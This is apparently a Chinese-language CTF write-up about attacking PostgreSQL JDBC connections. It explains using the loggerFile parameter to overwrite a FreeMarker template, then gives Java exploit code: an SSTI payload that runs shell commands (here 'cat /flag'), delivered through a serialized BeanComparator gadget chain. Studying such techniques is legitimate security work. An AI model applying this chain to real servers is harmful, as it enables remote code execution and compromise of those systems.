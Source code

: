 
# PostgreSQL JDBC Attack

`org.postgresql.ds.PGSimpleDataSource`继承自`BaseDataSource`，其`getConnection()`会发起JDBC连接，通过设置一些连接参数来进行攻击。

* socketFactory/socketFactoryArg

这两个参数用于实例化一个类，构造器需要接收一个String类型的参数

直接想到springboot下加载XML来RCE的两个类

> org.springframework.context.support.ClassPathXmlApplicationContext
>
> org.springframework.context.support.FileSystemXmlApplicationContext

但目标环境不能出网，弃之。

* loggerLevel/loggerFile

这两个参数用来开启JDBC日志，一个用于指定日志记录等级，一个用于指定日志文件位置

本来想利用这个覆盖`index.ftl`为XML，再让`ClassPathXmlApplicationContext`去请求这个XML，这样就不用出网了。但是日志还会带上其他信息，而这个类解析XML对格式要求不能含有其他垃圾字符。

模板引擎就允许标签之外有其他垃圾字符。

但是有一个问题，如果直接把要写入的模板放到jdbc url的参数中，会被url编码，导致模板解析不了。

放到其他位置比如ServerNames就不会被url编码了。

# EXP

```java
PGSimpleDataSource dataSource = new PGSimpleDataSource();
dataSource.setUrl("jdbc:postgresql://localhost:5432/test?loggerLevel=DEBUG&loggerFile=/app/templates/index.ftl");
String payload = "localhost/?<#assign ac=springMacroRequestContext.webApplicationContext>\n" +
    "<#assign fc=ac.getBean('freeMarkerConfiguration')>\n" +
    "<#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()>\n" +
    "<#assign VOID=fc.setNewBuiltinClassResolver(dcr)>\n" +
    "${\"freemarker.template.utility.Execute\"?new()(\"cat /flag\")}";
dataSource.setServerNames(new String[]{payload});

BeanComparator comparator = new BeanComparator("connection");
TreeMap treeMap1 = makeTree(dataSource, comparator);
TreeMap treeMap2 = makeTree(dataSource, comparator);
HashMap hashMap = makeMap(treeMap1, treeMap2);
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(barr);
oos.writeObject(hashMap);
oos.close();
System.out.println(Base64.getEncoder().encodeToString(barr.toByteArray()));
```
